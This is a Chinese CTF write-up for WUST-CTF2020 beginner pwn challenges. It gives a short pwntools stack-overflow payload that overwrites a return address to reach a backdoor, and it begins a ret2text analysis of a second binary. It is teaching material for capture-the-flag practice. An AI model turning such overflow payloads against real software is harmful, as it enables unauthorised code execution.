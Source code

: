 # 前言

武汉科技大学的萌新赛，刚一开赛就忘了密码的我，发现重置密码要等半小时嗯？新注册小号也要等半小时嗯？于是就只好化身为imagin师傅的小弟啦 (╯#-_-)╯~~

# Pwn

pwn题目基本都是考察基础知识的，十分适合萌新入门，出题人葛格很贴心~

## getshell 

- 题目描述：

  > Author: ColdShield

- 考察点：栈溢出

- 难度：入门

- 初始分值：1000

- 最终分值：632

- 完成人数：33

32位elf，简单的栈溢出，直接覆盖返回地址为后门即可。

``` python
offset = 28
payload = 'A'*offset
payload += p32(0x0804851B)
sl(payload)	
```


## getshell-2

- 题目描述：

  > Author: ColdShield

- 题目附件：[getshell-2](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/getshell-2/getshell-2)

- 考察点：ret2text

- 难度：入门

- 初始分值：1000

- 最终分值：988

- 完成人数：7

### 程序分析

和前面的getshell差不多，只是把`system("/bin/sh")`改了，没法直接getshell
